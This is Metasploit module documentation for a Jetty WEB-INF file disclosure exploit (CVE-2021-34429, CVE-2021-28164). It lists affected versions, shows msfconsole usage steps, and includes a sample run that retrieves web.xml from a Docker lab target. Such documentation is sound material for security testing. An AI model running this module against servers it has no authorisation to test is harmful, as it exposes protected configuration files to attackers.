 ## Vulnerable Application

Jetty suffers from a vulnerability where certain encoded URIs and ambiguous paths can access
protected files in the `WEB-INF` folder. 

Versions effected are:

 - 9.4.37.v20210219, 9.4.38.v20210224
 - 9.4.37-9.4.42
 - 10.0.1-10.0.5
 - 11.0.1-11.0.5

Exploitation can obtain any file in the `WEB-INF` folder, but web.xml is most likely
to have information of value.

### CVE-2021-34429

Use the Docker image from [ColdFusionX](https://github.com/ColdFusionX/CVE-2021-34429) at
https://github.com/ColdFusionX/CVE-2021-34429/blob/main/docker-compose.yml

## Verification Steps

1. Install Jetty with an app that contains a `WEB-INF` folder
1. Start msfconsole
1. Do: `use auxiliary/gather/jetty_web_inf_disclosure`
1. Do: `set rhosts`
1. Do: `run`
1. You should get the contents of a file

## Options

### FILE

The file in the `WEB-INF` folder to retrieve. Defaults to `web.xml`

### CVE

Which vulnerability to use.  Options: `CVE-2021-34429`, `CVE-2021-28164`. Defaults to `CVE-2021-34429`

## Scenarios

### Jetty 11.0.5 from Docker

```
resource (jetty.rb)> use auxiliary/gather/jetty_web_inf_disclosure
resource (jetty.rb)> set rhosts 1.1.1.1
rhosts => 1.1.1.1
resource (jetty.rb)> set rport 8080
rport => 8080
resource (jetty.rb)> set verbose true
verbose => true
resource (jetty.rb)> run
[*] Running module against 1.1.1.1
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Found version: 11.0.5
[+] 11.0.5 vulnerable to CVE-2021-34429
[!] The service is running, but could not be validated.
[+] File stored to /home/h00die/.msf4/loot/20211108134054_default_1.1.1.1_jetty.web.xml_813220.xml
[+] <!DOCTYPE web-app PUBLIC
 "-//Sun Microsystems, Inc.//DTD Web Application 2.3//EN"
 "http://java.sun.com/dtd/web-app_2_3.dtd" >
<web-app>
<display-name>ColdFusionX - Web Application</display-name>
</web-app>
```
